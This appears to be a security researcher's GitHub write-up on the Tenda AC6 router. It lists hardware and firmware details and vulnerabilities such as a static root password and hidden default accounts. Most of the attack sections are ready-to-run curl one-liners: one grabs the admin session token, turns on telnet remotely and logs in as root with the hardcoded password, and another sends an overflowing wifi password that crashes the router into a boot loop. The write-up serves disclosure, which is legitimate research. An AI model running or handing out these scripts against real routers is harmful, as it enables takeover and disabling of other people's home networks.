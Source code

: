 <table>
<tr>
	<td colspan=2><b><h2 align=center>Equipment Overview
<tr>
	<td colspan=2 align=center>
		<center>
		<img height=200px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20200927_174832.jpg"> 
		<img height=200px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20200927_175341.jpg"> 
		<img height=200px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20201024_163850.jpg">
<tr>
	<td colspan=1> <b>Router: 
	<td colspan=1>Tenda AC1200 (Model AC6) Smart Dual Band WiFi Router
<tr>
	<td colspan=1><b>Firmware Version:
	<td colspan=1>V15.03.06.51_multi 
<tr>
	<td colspan=1><b>Linux Version:
	<td colspan=1>Linux linux-e06efcf50f50 3.10.90 #5 Thu Oct 8 17:04:23 CST 2020 mips GNU/Linux
<tr>
	<td colspan=1><b>GCC Version:
	<td colspan=1>4.4.7
<tr>
	<td colspan=1><b>Busybox Version:
	<td colspan=1>v1.19.2
<tr>
	<td colspan=1 width=25%><b>Busybox Functions:
	<td colspan=1>[, [[, adduser, arp, arping, ash, awk, brctl, cat, chmod, clear, cp, cttyhack, cut, date, deluser, depmod, echo,
        egrep, eject, env, expr, false, fdisk, fgrep, free, grep, halt, ifconfig, init, insmod, kill, killall, killall5,
        linuxrc, ln, login, ls, lsmod, mdev, mkdir, modinfo, modprobe, more, mount, mountpoint, mv, netstat, nslookup,
        passwd, ping, ping6, poweroff, printf, ps, pstree, pwd, reboot, reset, rm, rmdir, rmmod, route, runlevel, sed, sh,
        sleep, softlimit, split, sulogin, tar, telnet, telnetd, test, tftp, top, touch, traceroute, traceroute6, true, tty,
        umount, uname, unzip, uptime, usleep, vconfig, vi, wget, yes
<tr>
	<td colspan=1><b>Sys Type: 
	<td colspan=1>RTL8197F
<tr>
	<td colspan=1><b>Hardward Access: 
	<td colspan=1>SPI, UART
<tr>
	<td colspan=1><b>SPI Flash:
	<td colspan=1>25Q64JVSIQ (<a href="https://github.com/cecada/Tenda-AC6-Root-Acces/blob/main/docs/w25q64jv%20spi%20revc%2006032016%20kms.pdf">Spec Sheet</a>)
<tr>
	<td colspan=1><b>HTTP Admin Access: 
	<td colspan=1>192.168.0.1 (default) or 192.168.1.1
</table>

Found issues: 

* CVE-2020–10988 overview: root password is Fireitup, and static. This vulnerability persists to this model and version.
* HTTP admin access has a static username (admin)
* Admin password is only secured with a simple MD5 hash
* Default speed test settings located on mtdbblock5 point to urls which download malware:
  * speedtest.addr.list7=sh.vnet.cn/downloads/elive1.16.exe?0.4812286039814353 ([Hybrid Report](https://www.hybrid-analysis.com/sample/4c15a77c71218d7feef52d9c5504c0d32d8e580819186a4bb708d3c120e7b15e))
  * speedtest.addr.list6=viewer.d.cnki.net/CNKI%20E-Learning%202.4.1-20140714.exe ([Hybrid Report](https://www.hybrid-analysis.com/sample/bfa165373e5f5ed6ba4e73440bc9bb94d6089d8edb784db5a4a011d8ee87f790/5f8440c84e139b56f00f0728))
* Default system accounts (admin, support, user, and nobody) are hidden from the HTTP admin console, have shell access, and all have 1234 as the password.
* It is possible to form an HTTP post will result in a denial of service by causing the router to crash and enter a boot loop.

<h2>Logging in / Getting Admin Password</h2>
	Router admin is done via a web portal which is defaulted to 192.168.0.1. The only credentials which is asked for is the password. The username appears to be static admin. Prior to the HTTP POST request the client hashes the password using MD5. A sample curl would look like:

```
curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' 
-H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' 
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest'
-H 'DNT: 1' -H 'Connection: close' --data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4'
--url 'http://192.168.0.1/login/Auth'
```
2a3ffeeda250174eaeba880553e0dfd4 = mathafter067

This results in 301 redirect to main.html, and of critical importance, a cookie is set with the hash + a pseudo-random 6 byte string. For example: 2a3ffeeda250174eaeba880553e0dfd4<b>piacvb</b> With this "token" we can do a lot of harm. 

Given the simplicity of authentication, the acceptance, and auto-population of default password, creating a brute-force script to find the password, and thus the MD5 hash is trivial.

<h2>Turning on Telnet</h2>
With this router, telnet is not on by default. I discovered a method, once you are connected and brute-forced the admin password you can turn it on without having to physically access the hardware. 

```
ahash=$(curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' 
-H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' 
-H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' --data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4' 
--url 'http://192.168.0.1/login/Auth'| grep Set-Cookie | cut -d\= -f2 | cut -d\; -f1); if [ -z "$ahash" ]; then echo -e "\n\nCouldn't get token? If you were logged in you are not logged out; try again. Else, check IP address."; else curl -isk -X 'GET' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' 
-H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' 
-H "Cookie: password=$ahash" -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' 
-H 'Connection: close' --url 'http://192.168.0.1/goform/telnet'; echo -e "\n\nSuccess!"; telnet 192.168.0.1; fi
```
Because I am lazy, I created a "one-liner" which will:
* Grab the "token"
* Check for success
* Turn on telnet
* Launch telnet

Telnet will ask for the username/password which is root/Fireitup
Device R00ted with no access to the hardware needed

<h2>Denial of Service: Crash it</h2>
Once you have brute forced the admin password it is possible to send an HTTP POST request which will trigger a crash, and result in a boot-loop.

```
overflow=$(perl -e 'print "A" x 1024');ahash=$(curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' 
-H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' 
--data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4' --url 'http://192.168.0.1/login/Auth'| grep Set-Cookie | cut -d\= -f2 | cut -d\; -f1); 
if [ -z "$ahash" ]; then echo -e "\n\nCouldn't get token? If you were logged in you are not logged out; try again. Else, check IP address."; else curl -isk 
-X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' 
-H 'Referer: http://192.168.0.1/wireless_ssid.html?random=0.54930120660236&' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' 
-H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' -H “Cookie: password=$ahash” -H 'Sec-GPC: 1' -b "password=$ahash" 
--data-binary "wrlEn=1&wrlEn_5g=1&security=wpawpa2psk&security_5g=wpawpa2psk&ssid=Tenda_FC6EE0&ssid_5g=Tenda&hideSsid=0&hideSsid_5g=0&wrlPwd=$overflow&wrlPwd_5g=mathafter067" 
--url 'http://192.168.0.1/goform/WifiBasicSet';fi
```
Like the telnet vuln, I scripted this out. 
* Generate an overflow string
* Get login "token"
* Check if the login was a success or not
* If it was, post overflow string as a setting change to the wifi password

The router will crash, and only a physical hard factory reset will restore it. 

<table>
<tr>
	<td colspan=2 align=center>
		<center>
		<img height=400px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/Screenshot_20201024_201441.png"> 
	<td colspan=2 align=center>
		<center>
		<img height=400px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/Screenshot_20201024_201653.png"> 
</table>
